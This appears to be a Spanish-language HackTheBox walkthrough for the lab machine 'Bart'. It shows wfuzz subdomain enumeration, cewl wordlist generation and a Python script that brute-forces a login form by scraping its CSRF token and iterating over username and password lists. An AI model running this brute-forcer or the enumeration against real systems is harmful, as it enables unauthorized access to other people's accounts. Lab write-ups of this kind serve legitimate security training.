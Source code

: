 # Bart-HTB

## NMAP 

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/2d9d0c51-4e1f-49f5-a613-c08cf759eedf)

Ponermos en el hosts el subdominio "http://forum.bart.htb/"  Si vemos la pagina tiene varios usuarios (moraleja siempre revisa los comentatios html <!-- )

![image](https://github.com/gecr07/Bart-HTB/assets/63270579/1cc0bd8a-0fcd-4f13-bf6e-8a1939bdd22e)



## WFUZZ 

Vamos a enumerar en busca de otros subdominios

```bash
 wfuzz -c -t 200  --hc=302,404 -w /usr/share/seclists/Discovery/DNS/deepmagic.com-prefixes-top50000.txt -H "Host: FUZZ.bart.htb"  http://10.129.96.185/

```

Encontramos un subdominio nuevo "monitor"


![image](https://github.com/gecr07/Bart-HTB/assets/63270579/cc964f92-3d61-49a5-b8a0-419bf0651268)

Si lo revisamos no encontre nada entonces lo que se me ocurre es un ataque de fuerza bruta....

## CEWL

Esto sirve para crear diccionarios en base a las mismas palabras de la pagina.

```bash
cewl -w cewl-forum.txt -e -a http://forum.bart.htb

‐e, ‐‐email
                     Include email addresses.

 ‐a, ‐‐meta
                     Include meta data.


```


### TR Mayusculas a Minusculas

Para cambiar de mayusculas a minuculas

```bash
tr '[:upper:]' '[:lower:]'
```


## Brute Force Alternativa a cosas como Hydra

Esto es una alternativa a hydra para hacer brute force lo que si falta es ponerle hilos para que vaya mas rapido

```python
#!/usr/bin/python3

import requests, pdb, sys, time, re, signal
import urllib3, threading


def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)


signal.signal(signal.SIGINT, def_handler)


url = 'http://monitor.bart.htb/index.php'
burp = { 'http': 'http://127.0.0.1:8080'}



def main():
	#time.sleep(10)
	s=requests.session()
	r = s.get(url)
	#print(r.text)
	csrfToken = re.findall(r'name="csrf" value="(.*?)"',r.text)[0]
	#pdb.set_trace()# l y p para ver valores.


	with open("user.txt", "rb") as users_file:
		usuarios = [linea.decode().strip() for linea in users_file]
	with open("passwords.txt", "rb") as passwords_file:
		contraseñas = [linea.decode().strip() for linea in passwords_file]
		for usuario in usuarios:
			for contraseña in contraseñas:
				#print(f"Probando: Usuario={usuario}, Contraseña={contraseña}")
				post_data = {'csrf': csrfToken,'user_name': usuario,'user_password': contraseña,'action':'Login'}
				r = s.post(url,data=post_data,proxies=burp)
				if "The information is incorrect"  not in r.text:
					print(f"Se encontro una contraseña correcta {usuario}:{contraseña}")
		
		



if __name__ == '__main__':
	main()

```




























































